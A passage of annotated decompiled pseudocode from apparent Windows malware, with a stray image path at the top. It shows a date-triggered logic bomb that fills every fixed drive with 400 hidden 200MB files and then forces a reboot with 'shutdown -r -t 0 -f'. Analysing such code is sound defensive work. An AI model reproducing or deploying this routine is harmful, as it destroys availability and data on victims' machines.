     result -= 20110501;
    if ( result < 0 )
    {
      sub_4010A0();
      Sleep(0x36EE80u);
      result = system(aShutdownRT0F); // shutdown -r -t 0 -f
    }
  }
  return result;
}

UINT sub_4010A0()
{
  signed int v0; // ebp@1
  char v1; // bl@2
  UINT result; // eax@2
  int v3; // esi@3
  CHAR RootPathName; // [sp+10h] [bp-14h]@2
  int v5; // [sp+18h] [bp-Ch]@1
  int v6; // [sp+1Ch] [bp-8h]@1
  __int16 v7; // [sp+20h] [bp-4h]@1

  v5 = dword_409040;                            // 'cdef'
  v6 = dword_409044;                            // 'ghij'
  v7 = word_409048;                             // 'k'
  v0 = 0;
  do
  {
    v1 = *((_BYTE *)&v5 + v0);
    wsprintfA(&RootPathName, aC_0, *((_BYTE *)&v5 + v0));
    strcat(&RootPathName, asc_409038);
    result = GetDriveTypeA(&RootPathName);
    if ( result == 3 ) // fixed disc
    {
      v3 = 1;
      do
        result = sub_401000(v1, v3++);
      while ( v3 < 400 ); // create 400 * 200MB files on a fixed disc
    }
    ++v0;
  }
  while ( v0 < 9 );
  return result;
}

signed int __cdecl sub_401000(char a1, int a2)
{
  HANDLE v2; // eax@1
  void *v3; // esi@1
  signed int result; // eax@2
  CHAR FileName; // [sp+8h] [bp-104h]@1

  memset(&FileName, 0, 0x104u);
  wsprintfA(&FileName, aCD, a1, a2);
  v2 = CreateFileA(&FileName, 0x10000000u, 0, 0, 1u, 6u, 0);
  v3 = v2;
  if ( v2 == (HANDLE)-1 )
  {
    result = 0;
  }
  else
  {
    SetFilePointer(v2, 209715200, 0, 0); // 200MB
    SetEndOfFile(v3); // change the file size to 200MB
    CloseHandle(v3);